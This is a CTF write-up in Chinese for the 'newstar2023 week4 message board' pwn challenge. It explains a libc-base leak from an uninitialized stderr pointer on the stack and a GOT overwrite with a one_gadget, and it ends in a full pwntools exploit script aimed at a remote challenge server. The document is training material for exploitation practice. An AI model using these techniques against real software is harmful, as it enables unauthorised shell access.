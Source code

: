 ```yaml
---
title: newstar2023 week4 - message board
date: 2023/10/20 12:00:00
tags:
    - fmt-string
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

一开始就要拿到puts的地址？how to？  
scanf也只能修改任意地址一次，又要怎么做？

分别利用栈初始化和one_gadget即可

## 踩过的坑

1. libcBase并不是无中生有，而是在栈上存在未初始化的`_IO_2_1_stderr_`
2. 数字会覆盖到栈上；垃圾字符会导致scanf一直输入不了；而'+'能使scanf跳过输入，
不覆盖栈内容
3. ELF里的symbols不止可以找函数，找stderr这样的标签都是可以的
4. got可写，那么可以利用one_gadget来使一个函数直接运行打开shell（但是要注意限制条件）
5. 注意got里的函数是不可写的，只有.got.plt里的函数可写
6. one_gadget在本地不一定是可用的，在我的电脑上就没开起来（但是验证了可行性）

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('msgboard')
        gdb.attach(sh)
    else:
        sh = remote('node4.buuoj.cn', 27179)

    # payload 1, leak _IO_2_1_stderr_
    sh.sendline(b'2 + +') # 
    sh.recvuntil(b'is ') # skip
    sh.recvuntil(b'is ') # skip
    stderr = int(sh.recvline())

    if lo:
        libc = ELF('/usr/lib/libc.so.6')
    else:
        libc = ELF('libc-2.31.so')
    libcBase = stderr - libc.symbols['_IO_2_1_stderr_']
    print(hex(libcBase)) # check it
    putsGotAddr = libcBase + libc.symbols['puts'] # shift

    if lo:
        oneGadget = libcBase + 0xfabcf # r9 == 0 && rdx == 0 && [rsp + 0x70] == 0
    else:
        oneGadget = libcBase + 0xe3b01 # r15 == 0 && rdx == 0

    # payload 2, send puts addr shifted from stderr
    sh.sendline(str(putsGotAddr).encode())

    elf = ELF('msgboard')
    symA = elf.bss(0xa0 - 0x60)
    printfGot = elf.got['__isoc99_scanf']
    offset = (printfGot - symA) // 4 # locate printfGot
    print(offset)

    # payload 3, modify printf to one_gadget
    sh.sendlineafter(b'ons', str(offset).encode()) # idx
    sh.sendlineafter(b'ion', str(oneGadget & 0xffffffff).encode()) # content, 32b
    # now running printf opens shell

    sh.interactive()

```

Done.
